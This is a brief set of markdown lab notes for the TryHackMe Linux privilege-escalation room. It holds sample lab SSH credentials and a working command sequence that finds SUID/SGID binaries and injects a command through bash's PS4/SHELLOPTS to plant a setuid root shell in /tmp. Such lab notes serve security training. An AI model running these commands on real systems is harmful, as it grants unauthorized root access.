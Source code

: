 # TEST SETUP/ENVIRONMENT

# MANUAL ENUMERATION 

# AUTOMATED ENUMERATION 

# MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 

## TRYHACKME

https://tryhackme.com/room/linuxprivesc

ssh user@1.1.1.1

ssh -oHostKeyAlgorithms=+ssh-dss user@1.1.1.1

pass:password321

## CATEGORY "SUID / SGID EXECUTEABLES" - ABUSING SHELL FEATURES 2

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

/tmp/rootbash -p

rm /tmp/rootbash

exit
```
